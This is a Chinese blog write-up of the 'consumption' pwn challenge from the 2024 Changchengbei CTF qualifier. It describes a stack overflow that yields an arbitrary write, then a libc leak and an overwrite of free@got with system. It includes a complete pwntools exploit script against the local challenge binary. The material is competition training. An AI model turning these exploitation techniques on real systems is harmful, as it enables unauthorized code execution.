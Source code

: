 ```yaml
---
date: 2024-9-8 10:22:03
layout: post
title: 2024 长城杯初赛 consumption writeup
subtitle: 
description: >-
    记录一下一点奇怪的 leak
image: >-
  /assets/img/uploads/consumption.png
optimized_image: >-
  /assets/img/uploads/consumption.png
category: ctf
tags:
  - ctf
  - pwn
  - 2024 长城杯
  - consumption
author: rosayxy
paginate: true
---
```


# 2024 长城杯初赛 consumption writeup
赛场上把两道简单 pwn 题做了，这道题找到了 crash 点，队友把这道题出了qaq，当时和队友讨论的时候有一些踩坑的思路，就在这里记一下了 hhh（但是这个题也是简单题啊xsl）    
当时一直在思考怎么 leak libc，**因为是32位的程序，所以爆破代价较低**，直接采用爆破的方式了，直到晚上又和队友讨论 想了两种 leak 的方法并且都打出来了        
从一年前出 THUCTF 题的时候就在想任意地址写任意值的打法，这道题就是如此    

## 题目
一开始在看常规的堆题漏洞，都没发现，在 main 函数中注意到一个比较奇怪的点
```c
 char s[1280]; // [esp+28h] [ebp-100Ch] BYREF
  int v13[64]; // [esp+528h] [ebp-B0Ch] BYREF
  _DWORD stack_buf[643]; // [esp+628h] [ebp-A0Ch] BYREF

  stack_buf[641] = &argc;
  stack_buf[640] = __readgsdword(0x14u);
  init();
  while ( 1 )
  {
    menu();
    v13[0] = (int)stack_buf;                    // stack_buf
    __isoc99_scanf("%4094s", s);
    // ...

```
这里看到我们写的 json 的内容可以覆盖到先前往 v13[0] 写入的 stack_buf 内容   
在后续的 add 函数中，会把 json 中的 size 域写入 *stack_ptr，然后根据 size 是否合法去分配堆空间，写内容或者返回     
所以当我们把 stack_buf 覆盖为一个已知地址时，可以写任意值，从而**算是有一个任意地址写任意值原语**     
这里踩到的一个坑是：一开始先入为主的不知道为啥认为那个输出"out!!"就返回了的函数具有 `exit` 功能，可能是受 main 函数中 `puts_out(); exit(-1);` 的影响，之前也有题目这样认错过，可能是 rosayxy 的奇怪脑回路吧哈哈哈    
![alt_text](/assets/img/uploads/consumption1.jpg)
## 思路
- 赛场上思路：先把 `memcpy` 覆盖为 `ret`，       
  否则后面写 libc 地址的时候，有 **stack_ptr=libc_addr ,因为 `**controllable_addr<0`，所以会继续执行如下代码
```c
  heap[v4] = (int)malloc(**stack_ptr);
  length[v4] = **stack_ptr;
  memcpy((void *)heap[v4], content, **stack_ptr);
```
而 malloc 可能给不到这么大的空间，会返回一个 nullptr，所以 memcpy 的第一个参数为空，直接 segfault 了       
然后把 free@got 改成 libc system address，进行 libc 地址爆破 就可以了     

- rosayxy 思路：
  - 第一次漏洞利用：改 memcpy 为 puts 函数 第二轮正常 malloc 泄露 libc 地址（前提是在一开始搞一个 unsorted bin），泄露堆上 libc 地址
  - 把 memcpy 改成 ret，不然 puts 空指针也会 segfault
  - 第二次漏洞利用： free@got 覆盖为 system
- 队友 k4ra5u 赛后思路：
  - 把 bss 段 heap 中的堆指针改成 got 表地址，直接用它自带的 show 函数泄露
  - free@got 覆盖为 system
  - 感觉应该是最巧妙的一种思路哈哈哈 ~ tql

## exp
rosayxy 思路的 exp
```py
from time import sleep
from pwn import*
context(arch='i386', os='linux', log_level='debug')
json={"idx": 1,"choice": "1","size": "100","content": "This is the content for option A."}
p=process("./consumption")
libc=ELF("./libc.so.6")
# gdb.attach(p)
# pause()

# 第一次改 memcpy 为 printf 第二轮正常 malloc 泄露 libc 地址（前提是在一开始搞一个 unsorted bin）
# 第二次写 free_got 为 system

p.recvuntil("5.exit\t\n")
payload = b'{"choice":"1","idx":0,"size":"1023","content":"aaaaa"}'
p.sendline(payload)
p.recvuntil("5.exit\t\n")
payload=b'{"choice":"1","idx":1,"size":"32","content":"/bin/sh;"}'
p.sendline(payload)
payload=b'{"choice":"2","idx":0,"size":"32","content":"aaaaa"}'
# elevate vuln

p.recvuntil("5.exit\t\n")
p.sendline(payload)
payload = b'{"choice":"1","idx":0,"size":"134517248","content":"","blabla":"' # size 写成 puts 地址
payload = payload.ljust(1280,b'A')
payload +=p32(0x8051AB4)
payload +=b'"}'
p.recvuntil("5.exit\t\n")
p.sendline(payload)
# gdb.attach(p)
# pause()
p.recvuntil("5.exit\t\n")
payload = b'{"choice":"1","idx":2,"size":"8","content":"a"}'
p.sendline(payload)

leak=u32(p.recv(4))
print(hex(leak))
# f7f6d778 0xf7d84000
libc_base = leak - 0xf6d778+0xd84000
print(hex(libc_base))
system=libc_base+libc.symbols['system']
free_got=0x8051AB0
# 改 got 表
# gdb.attach(p)
# pause()

payload = b'{"choice":"1","idx":0,"size":"134518550","content":"","blabla":"' # size 写成 retn 地址 防止后面 crash 了
payload = payload.ljust(1280,b'A')
payload +=p32(0x8051AB4)
payload +=b'"}'

p.recvuntil("5.exit\t\n")
p.sendline(payload)

p.recvuntil("5.exit\t\n")
payload=b'{"choice":"1","idx":0,"size":"'+str(-0x100000000+system).encode("latin-1")+b'","content":"","blabla":"'
payload = payload.ljust(1280,b'A')
payload +=p32(free_got)
payload +=b'"}'
p.sendline(payload)

p.recvuntil("5.exit\t\n")
payload=b'{"choice":"2","idx":1,"size":"8","content":"a"}'
p.sendline(payload)
p.interactive()
```

## 总结
本题总体不难，但是可能还是题练少了熟练度不太够    
感觉自由度挺高的，玩一些花活还是开心的qaq    
题目完整链接见 [这里](/attachments/consumption.zip)    